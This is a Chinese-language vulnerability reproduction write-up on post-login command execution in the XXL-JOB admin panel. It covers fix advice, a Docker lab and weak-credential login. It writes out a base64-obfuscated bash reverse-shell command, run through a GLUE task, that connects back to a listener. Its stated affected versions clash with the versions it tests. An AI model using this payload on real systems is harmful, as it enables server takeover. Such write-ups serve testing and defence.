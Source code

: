# XXL-JOB 任务调度中心 后台任意命令执行漏洞

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** XXL-JOB 任务调度中心 后台任意命令执行漏洞



## 0x01 漏洞描述

在日常开发中，经常会用定时任务执行某些不紧急又非常重要的事情，例如批量结算，计算当日的订单量，当日的成本收入等。当存在大量定时任务的时候，任务的管理也会成为一个比较头痛的问题。xxl-job，就是一个比较成熟的分布式任务调度平台。XXL-JOB 任务调度中心系统存在后台命令执行漏洞，攻击者可以通过反弹shell执行任意命令，获取服务器管理权限。

## 0x02 影响版本

```text
2.3.1和2.4
```

## 0x03 修复建议

1. 将服务平台放置内网，或者隐藏端口
2. 将密码设置为强密码
3. 开源项目，有条件可以在登录口设置验证，防止爆破情况发生

## 0x04 环境搭建

安装docker以及docker-compose

```
docker pull mysql:5.7.44
docker pull xxl-job-admin:2.1.2
docker run  --name mysql -d -p 3306:3306 -e MYSQL_ROOT_PASSWORD=123456 mysql:5.7.44

github 下载 对应版本源代码文件
下载地址：https://github.com/xuxueli/xxl-job/archive/refs/tags/2.1.2.zip
解压后，进入 \doc\db 目录，将 tables_xxl_job.sql 文件导入至docker mysql 容器中
导入命令：mysql -h 容器所在宿主机IP地址 -uroot -p123456 < sql文件路径

docker run -e PARAMS="--spring.datasource.url=jdbc:mysql://容器所在宿主机IP地址:3306/xxl_job?useUnicode=true&characterEncoding=UTF-8&useSSL=false&serverTimezone=Asia/Shanghai --spring.datasource.username=root --spring.datasource.password=123456 --spring.datasource.driver-class-name=com.mysql.jdbc.Driver"  -p 9080:8080 -v /root/xxl-job/log:/data/applogs --name xxl-job-admin --privileged=true -d xuxueli/xxl-job-admin:2.1.2
```

打开浏览器输入： `http://容器所在宿主机IP地址:9080/xxl-job-admin` ，即可访问

![Untitled](image/Untitled.png)

## 0x05 漏洞复现

本次使用的xxl-job版本为`xxl-job-admin:2.2.0`

通过弱口令或其他方式进入后台界面

访问`http://192.168.81.173:8080/xxl-job-admin/toLogin#/`进入xxl-job-admin登陆界面

账号密码：admin/123456

![Untitled](image/Untitled%201.png)

任务管理新增任务

![Untitled](image/Untitled%202.png)

点击新增任务，按照下图填写后，保存

![Untitled](image/Untitled%203.png)

![Untitled](image/Untitled%204.png)

选择GLUE IDE, 写入反弹shell的命令

![Untitled](image/Untitled%205.png)

保存后

攻击机在命令行界面监听8989端口即可

![Untitled](image/Untitled%206.png)

xxl-job任务管理界面，对刚才创建的任务进行操作，选择点击执行一次

![Untitled](image/Untitled%207.png)

反弹shell成功

![Untitled](image/Untitled%208.png)

![Untitled](image/Untitled%209.png)

运行模式为GLUE(Java)时反弹shell的操作与GLUE(Shell)相同

![Untitled](image/Untitled%2010.png)

![Untitled](image/Untitled%2011.png)

```
Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzE5Mi4xNjguODEuMTgyLzg5ODkgMD4mMQ==}|{base64,-d}|{bash,-i}");
```

![Untitled](image/Untitled%2012.png)

![Untitled](image/Untitled%2013.png)
